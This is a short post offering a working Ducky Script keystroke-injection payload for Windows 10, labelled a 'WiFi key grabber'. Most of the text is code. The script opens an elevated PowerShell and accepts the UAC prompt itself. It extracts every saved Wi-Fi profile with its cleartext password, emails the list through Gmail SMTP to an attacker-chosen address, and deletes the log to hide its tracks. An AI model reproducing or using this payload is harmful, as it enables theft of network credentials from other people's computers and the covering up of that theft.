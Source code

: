 This works on Windows 10:

`DELAY 2000`
`REM --> Minimize all windows`
`WINDOWS d`
`REM --> Open cmd`
`WINDOWS r`
`DELAY 2000`
`STRING powershell`
`DELAY 500`
`ENTER`
`DELAY 8000`
`STRING Start-Process powershell -verb runAs`
`DELAY 200`
`ENTER`
`DELAY 3000`
`ALT y`
`DELAY 2000`
`STRING cd "C:\users\$env:USERNAME\"`
`DELAY 200`
`ENTER`
`DELAY 1000`
`STRING (netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %`
`DELAY 100`
`STRING {(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.M`
`DELAY 200`
`STRING atches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Fo`
`DELAY 200`
`STRING rmat-Table -AutoSize >"Log.txt" `
`DELAY 200`
`ENTER`
`DELAY 1200`
`STRING $SMTPServer = 'smtp.gmail.com'`
`ENTER`
`STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)`
`ENTER`
`STRING $SMTPInfo.EnableSSL = $true`
`ENTER`
`STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('youremail@gmail.com', 'yourpassword')`
`ENTER`
`STRING $ReportEmail = New-Object System.Net.Mail.MailMessage`
`ENTER`
`STRING $ReportEmail.From = 'youremail@gmail.com'`
`ENTER`
`STRING $ReportEmail.To.Add('youremail@anywhere.com')`
`ENTER`
`STRING $ReportEmail.Subject = 'WiFi key grabber'`
`ENTER`
`STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)`
`ENTER`
`STRING $SMTPInfo.Send($ReportEmail)`
`ENTER`
`DELAY 8000`
`REM --> Delete Log.txt and exit`
`STRING del Log.txt`
`DELAY 200`
`ENTER`
`DELAY 200`
`STRING exit`
`DELAY 200`
`ENTER `
`DELAY 300`
`STRING exit`
`DELAY 200`
`ENTER`
